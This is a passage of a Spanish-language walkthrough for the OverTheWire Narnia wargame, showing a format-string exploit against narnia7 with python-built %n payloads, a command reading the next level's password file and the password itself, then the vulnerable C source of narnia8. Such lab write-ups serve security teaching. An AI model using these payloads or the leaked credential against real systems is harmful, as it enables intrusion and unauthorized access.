 ~~~
        return 0;
}
~~~
podemos ver que hay una vulnerabilidad de formato de cadena en la función snprintf()

~~~
./narnia7 ABCD
./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%1$n"')
./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%2$n"')
whoami
cat /etc/narnia_pass/narnia8

mohthuphog
~~~

## Narnia8
ssh narnia8@narnia.labs.overthewire.org -p 2226

~~~
cd /narnia/
./narnia8
./narnia8 test
~~~ 
codigo fuente

~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int i;

void func(char *b){
	char *blah=b;
	char bok[20];
	//int i=0;

	memset(bok, '\0', sizeof(bok));
	for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];

	printf("%s\n",bok);
}

int main(int argc, char **argv){

	if(argc > 1)
		func(argv[1]);
	else
	printf("%s argument\n", argv[0]);

	return 0;
}
~~~

